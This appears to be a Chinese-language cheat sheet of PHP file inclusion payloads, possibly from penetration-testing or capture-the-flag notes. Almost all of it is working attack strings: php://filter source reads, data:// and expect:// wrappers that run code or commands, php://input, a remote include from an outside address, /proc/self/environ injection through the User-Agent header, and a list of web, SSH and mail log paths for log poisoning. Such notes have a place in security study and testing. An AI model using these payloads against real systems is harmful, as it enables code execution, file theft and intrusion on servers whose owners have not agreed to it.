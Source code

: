 1. 仔细查看被包含的文件，其中的隐藏内容可能被作为代码解析
2. 伪协议

- `php://filter` 协议

```
php://filter/convert.base64-encode/resource=file.txt
php://filter/string.rot13/resource=file.txt
```

- `data://` 协议

```
data://text/plain,<?=phpinfo();?>
data://text/plain;base64,PD89cGhwaW5mbygpOz8%2B
```

- `php://input` 协议

```
php://input
```

- 远程文件包含

```
http://10.0.0.1:7331/l33t.txt
```

- `expect://` 协议

```
expect://id
expect://ls
```

- 利用环境 `/proc/self/environ`

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

- 利用日志文件

```
/var/log/apache/access.log          # Apache
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log           # Nginx
/var/log/nginx/error.log
/var/log/vsftpd.log                 # FTP
/var/log/auth.log                   # SSH
/var/log/sshd.log                   
/var/log/mail                       # Mail
```
